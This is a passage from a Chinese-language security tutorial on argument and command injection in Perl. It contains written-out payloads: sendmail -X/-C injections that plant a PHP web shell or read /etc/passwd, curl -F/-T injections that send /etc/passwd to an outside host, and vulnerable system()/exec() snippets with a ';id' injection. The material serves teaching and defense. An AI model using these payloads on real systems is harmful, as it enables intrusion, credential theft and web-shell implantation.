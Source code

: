 1、-O option = value：QueueDirectory = queuedir 选择队列消息

2、-X logfile：这个参数可以指定一个目录来记录发送邮件时的详细日志情况，我们正式利用这个参数来达到我们的目的。

3、-C file：这个参数用 File 变量指定的备用配置文件启动 sendmail 命令。

常见的参数注入方式，这里只列出用法不举例了：

1、向 Web 目录写日志 Shell：`-O QueueDirectory=/tmp -X /var/www/html/log-shell.php`

2、任意文件读取：`-C/etc/passwd -X/tmp/output.txt`

**curl 参数注入**

curl 命令的 -F 参数选项为以 POST 方式提交表单，-T 参数选项为上传文件，这些参数选项都存在参数注入风险。

常见的参数注入方式，这里只列出用法不举例了：

1、以 POST 方式提交任意文件：`-F filename=@/etc/passwd http://a.com/b.php`

2、上传任意文件：`-T /etc/passwd ftp://10.0.0.10`

###### 目录遍历

在参数部分可控且不存在参数注入的场景下，如果注入的参数值为文件路径，那么就可以尝试进行目录遍历攻击。

比如：

```
$param = $ARGV\[0\];
system("cat /tmp/$param");
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdibpKaKQaEfQ3ibS661PDwcNusJPEztvh3ggo1Y2q9BpgdYLqdlfP6VVUI95UgEaCEqmAZBWMgLHlA/640?wx_fmt=png)

##### exec() 函数

exec() 函数和 system() 函数类似，执行命令是有回显的。exec 后可以有圆括号，也可以没有。两者最大的区别是 system() 函数创建了一个 fork 进程，并等待查看命令是成功还是失败（返回一个值）；而 exec() 函数不返回任何内容，它只是执行命令。

###### 参数全部可控

```
$cmd = "echo exec\_inject";
exec $cmd;
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdibpKaKQaEfQ3ibS661PDwcNIhr9YEnsAthvOULcnQR9iaCYRzfuWPicAKBAb4Dljx7R528D3DRbu4LA/640?wx_fmt=png)

###### 参数部分可控

和前面 system 的情况一样，未进行数组分隔时能注入命令执行：

```
$param = ";id";
exec("cat /tmp/$param");
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdibpKaKQaEfQ3ibS661PDwcNKFsEZogyAEXIzn9BicOc9cl7SzoxtBC4h87CToFNg92NmQmfdCy3J5g/640?wx_fmt=png)

同样，数组分隔传参就不行了：
